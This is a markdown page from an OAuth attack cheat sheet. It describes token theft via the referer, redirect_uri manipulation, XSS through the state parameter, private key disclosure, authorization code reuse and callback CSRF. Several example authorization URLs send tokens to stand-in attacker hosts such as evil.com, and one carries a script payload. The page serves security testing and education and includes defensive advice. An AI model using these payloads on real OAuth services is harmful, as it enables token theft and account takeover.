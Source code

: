 ```yaml
---
title: OAuth
categories: [Injection]
tags: [Injection, Token, XSS]
---
```


## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)

## Stealing OAuth Token via referer

From [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544) tweet.

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer 

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.

## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) By Jack Whitton